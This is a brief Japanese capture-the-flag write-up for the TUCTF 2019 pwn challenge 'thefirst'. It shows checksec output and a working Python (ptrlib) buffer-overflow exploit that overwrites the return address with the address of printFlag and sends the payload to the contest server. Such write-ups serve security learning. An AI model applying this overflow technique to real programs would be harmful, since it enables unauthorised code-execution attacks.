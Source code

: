 # [pwn 379pts] thefirst - TUCTF 2019
NX以外無効です。
```
$ checksec -f thefirst
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   73 Symbols     No       0               4       thefirst
```
バッファオーバーフローがあり、フラグを出力する関数があるので飛ばすだけです。
```python
from ptrlib import *

elf = ELF("./thefirst")
#sock = Process("./thefirst")
sock = Socket("chal.tuctf.com", 30508)

payload = b'A' * 0x18
payload += p32(elf.symbol('printFlag'))
sock.sendlineafter("> ", payload)

sock.interactive()
```

# 感想
簡単すぎる。